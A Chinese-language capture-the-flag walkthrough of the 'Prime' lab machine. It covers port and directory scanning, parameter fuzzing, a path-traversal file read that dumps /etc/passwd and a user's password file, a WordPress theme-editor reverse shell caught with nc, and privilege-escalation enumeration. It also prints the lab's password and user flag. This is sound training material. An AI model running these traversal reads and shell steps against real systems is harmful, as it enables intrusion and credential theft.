

prime

## 端口扫描

```bash
┌─[fforu@parrot]─[/home/fforu]
└──╼ $sudo nmap -sT --min-rate 9999 -p- 192.168.99.39 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:EB:A5:7C (VMware)


┌─[fforu@parrot]─[/home/fforu]
└──╼ $sudo nmap -sT -sC -sV -O -p22,80 192.168.99.39
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
|_  256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
MAC Address: 00:0C:29:EB:A5:7C (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌─[fforu@parrot]─[~]
└──╼ $sudo nmap -sT --script=vuln -p22,80 192.168.99.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 10:51 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.99.39 (192.168.99.39)
Host is up (0.00045s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
MAC Address: 00:0C:29:EB:A5:7C (VMware)


```
两个端口，22暂时不考虑，80有wordpress系统
漏洞脚本扫描到dos和wordpress登录界面


## 目录爆破与fuzz

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 
http://192.168.99.39
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.99.39
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.99.39/wordpress/]
/dev                  (Status: 200) [Size: 131]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.99.39/javascript/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```
gobuster扫描到dev，可以查看一下，是一个简单的提示
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $curl http://192.168.99.39/dev
hello,

now you are at level 0 stage.

In real life pentesting we should use our tools to dig on a web very hard.

Happy hacking. 

```

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo dirb http://192.168.99.39

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.99.39/ ----
+ http://192.168.99.39/dev (CODE:200|SIZE:131)                                            
+ http://192.168.99.39/index.php (CODE:200|SIZE:136)                                      
==> DIRECTORY: http://192.168.99.39/javascript/                                           
+ http://192.168.99.39/server-status (CODE:403|SIZE:278)                                  
==> DIRECTORY: http://192.168.99.39/wordpress/                                            
                                                                                          
---- Entering directory: http://192.168.99.39/javascript/ ----
==> DIRECTORY: http://192.168.99.39/javascript/jquery/                                    
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/ ----
+ http://192.168.99.39/wordpress/index.php (CODE:301|SIZE:0)                              
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/                                   
==> DIRECTORY: http://192.168.99.39/wordpress/wp-content/                                 
==> DIRECTORY: http://192.168.99.39/wordpress/wp-includes/                                
+ http://192.168.99.39/wordpress/xmlrpc.php (CODE:405|SIZE:42)                            
                                                                                          
---- Entering directory: http://192.168.99.39/javascript/jquery/ ----
+ http://192.168.99.39/javascript/jquery/jquery (CODE:200|SIZE:284394)                    
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/ ----
+ http://192.168.99.39/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)                     
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/css/                               
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/images/                            
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/includes/                          
+ http://192.168.99.39/wordpress/wp-admin/index.php (CODE:302|SIZE:0)                     
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/js/                                
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/maint/                             
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/network/                           
==> DIRECTORY: http://192.168.99.39/wordpress/wp-admin/user/                              
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-content/ ----
+ http://192.168.99.39/wordpress/wp-content/index.php (CODE:200|SIZE:0)                   
==> DIRECTORY: http://192.168.99.39/wordpress/wp-content/plugins/                         
==> DIRECTORY: http://192.168.99.39/wordpress/wp-content/themes/                          
==> DIRECTORY: http://192.168.99.39/wordpress/wp-content/uploads/                         
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/network/ ----
+ http://192.168.99.39/wordpress/wp-admin/network/admin.php (CODE:302|SIZE:0)             
+ http://192.168.99.39/wordpress/wp-admin/network/index.php (CODE:302|SIZE:0)             
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-admin/user/ ----
+ http://192.168.99.39/wordpress/wp-admin/user/admin.php (CODE:302|SIZE:0)                
+ http://192.168.99.39/wordpress/wp-admin/user/index.php (CODE:302|SIZE:0)                
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-content/plugins/ ----
+ http://192.168.99.39/wordpress/wp-content/plugins/index.php (CODE:200|SIZE:0)           
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-content/themes/ ----
+ http://192.168.99.39/wordpress/wp-content/themes/index.php (CODE:200|SIZE:0)            
                                                                                          
---- Entering directory: http://192.168.99.39/wordpress/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat Feb 10 10:58:12 2024
DOWNLOADED: 46120 - FOUND: 15
```

根据提示【In real life pentesting we should use our tools to dig on a web very hard.】，深度挖掘80web界面的信息

```bash
根据提示【In real life pentesting we should use our tools to dig on a web very hard.】，深度挖掘80web界面的信息

┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo dirb http://192.168.99.39 -X .php,.txt
EXTENSIONS_LIST: (.php,.txt) | (.php)(.txt) [NUM = 2]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.99.39/ ----
+ http://192.168.99.39/image.php (CODE:200|SIZE:147)                                      
+ http://192.168.99.39/index.php (CODE:200|SIZE:136)                                      
+ http://192.168.99.39/secret.txt (CODE:200|SIZE:412)                                     
                                                                                          
-----------------
END_TIME: Sat Feb 10 11:01:57 2024
DOWNLOADED: 9224 - FOUND: 3

```

此时发现三个文件信息
首先查看secret.txt

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $curl http://192.168.99.39/secret.txt
Looks like you have got some secrets.

Ok I just want to do some help to you. 

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck 
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
 


//see the location.txt and you will get your next move//
```

这又是一个提示，其中`parameter`，参数，是一个重要提示，提示我们去进行parameter的fuzz测试

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 http://192.168.99.39
/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.99.39/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                   
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"                    

Total time: 0
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 0

┌─[fforu@parrot]─[~/workspace]
└──╼ $wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 31 http://192.168.99.39/images.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.99.39/image.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                   
=====================================================================


Total time: 0
Processed Requests: 951
Filtered Requests: 951
Requests/sec.: 0
```

使用wfuzz的结果显示，对于images.php，没有任何有效参数
而对于index页面，有一个file参数
其中之前的提示又提示我们去找`location.txt`文件

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $curl http://192.168.99.39/index.php?file=location.txt
<html>
<title>HacknPentest</title>
<body>
 
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```

这又是一个提示，提示我们去用'secrettier360'参数去另外一个页面尝试文件读取

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $curl http://192.168.99.39/image.php?secrettier360=../../../../etc/passwd
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
</html>
```

这边发现了文件包含
注意到这一行：saket:x:1001:1001:find password.txt file in my directory:/home/saket:
那么直接去读取password.txt

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $curl http://192.168.99.39/image.php?secrettier360=../../../home/saket/password.txt
<html>
<title>HacknPentest</title>
<body>
 </p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
</html>
```

得到一个密码：follow_the_ippsec

## wordpress

```bash
┌─[✗]─[fforu@parrot]─[~]
└──╼ $wpscan --url http://192.168.99.39/wordpress -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://192.168.99.39/wordpress/ [192.168.99.39]
[+] Started: Sat Feb 10 11:41:17 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.99.39/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.99.39/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.99.39/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.99.39/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.99.39/wordpress/?feed=rss2, <generator>https://wordpress.org/?v=5.2.2</generator>
 |  - http://192.168.99.39/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.2.2</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://192.168.99.39/wordpress/wp-content/themes/twentynineteen/
 | Last Updated: 2023-11-07T00:00:00.000Z
 | Readme: http://192.168.99.39/wordpress/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://192.168.99.39/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.4
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.99.39/wordpress/wp-content/themes/twentynineteen/style.css?ver=1.4, Match: 'Version: 1.4'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] victor
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Feb 10 11:41:21 2024
[+] Requests Done: 69
[+] Cached Requests: 6
[+] Data Sent: 16.804 KB
[+] Data Received: 21.286 MB
[+] Memory used: 182.035 MB
[+] Elapsed time: 00:00:03
```

可以发现找到了一个victor用户
他在之前的passwd中也有出现，那么基本就可以判定他是系统管理员了

接下来登录wordpress后台


接下来去找文件上传
其中插件管理中存在一个文件上传点

看到没有上传权限


在主题编辑器中寻找是否可以写入

找到可以写入的文件，直接写反弹shell


拿到第一个www-data的shell
```bash
┌─[fforu@parrot]─[~]
└──╼ $sudo nc -lvnp 443
[sudo] fforu 的密码：
listening on [any] 443 ...
connect to [192.168.99.35] from (UNKNOWN) [192.168.99.39] 59456
Linux ubuntu 4.15.0-142-generic #146~16.04.1-Ubuntu SMP Tue Apr 13 09:27:15 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:55:54 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:eb:a5:7c brd ff:ff:ff:ff:ff:ff
    inet 192.168.99.39/24 brd 192.168.99.255 scope global dynamic ens33
       valid_lft 1702sec preferred_lft 1702sec
    inet6 fe80::57e8:dc54:3bcd:712a/64 scope link 
       valid_lft forever preferred_lft forever
```
## 提权

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
$ cat /home/saket/enc
cat: /home/saket/enc: Permission denied
$ ls /home/saket
enc
password.txt
user.txt
$ cat /home/saket/user.txt
af3c658dcf9d7190da3153519c003456
$ cat /home/saket/password.txt
follow_the_ippsec
$ find / -perm -04000 2>/dev/null
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vmware-user-suid-wrapper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/bin/fusermount
/bin/umount
/bin/ping6
/bin/mount
/bin/su
/bin/ping
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
@reboot                 bash /root/t.sh
#
$ uname -a
Linux ubuntu 4.15.0-142-generic #146~16.04.1-Ubuntu SMP Tue Apr 13 09:27:15 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

最终的解决方案应该是内核提权
但是我本地环境的靶机内核版本是4.15.0-142
讲道理应该是4.10.28~
所以就到这就结束了
